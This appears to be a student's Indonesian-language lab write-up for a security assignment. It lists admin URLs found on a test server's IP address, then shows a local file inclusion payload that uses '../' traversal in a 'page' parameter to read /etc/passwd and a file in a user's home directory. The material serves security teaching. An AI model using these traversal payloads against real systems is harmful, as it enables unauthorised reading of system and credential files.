 # cs-assignment-5

## Active Reconaissance

menganalaisa url yang ada pada http://157.245.157.217/ didapatkan

http://157.245.157.217/admin/

http://157.245.157.217/admin/dashboard.php

http://157.245.157.217/admin/tambah_data.php

http://157.245.157.217/admin/dashboard.php?page=jumlah_berita.php

dari hasil reconaissance didapatkan url yang memiliki kerentanan

http://157.245.157.217/admin/dashboard.php?page=jumlah_berita.php

## LFI

Mengecek LFI vulnerability dengan menggunakan payload seperti di bawah

http://157.245.157.217/admin/dashboard.php?page=../../../../etc/passwd

didapatkan hasil sebagai berikut

![image](https://user-images.githubusercontent.com/6330046/187918848-074bb426-0863-4c25-b22a-f1aa62bdf3ce.png)

mendapatkan akses root director kemudian masukkan url berikut

http://157.245.157.217/admin/dashboard.php?page=../../../../home/daffa/lfi.txt

dan didapatkan hasil berikut

![image](https://user-images.githubusercontent.com/6330046/187933306-a3f497c0-2383-4862-b3ef-782beca4fcce.png)

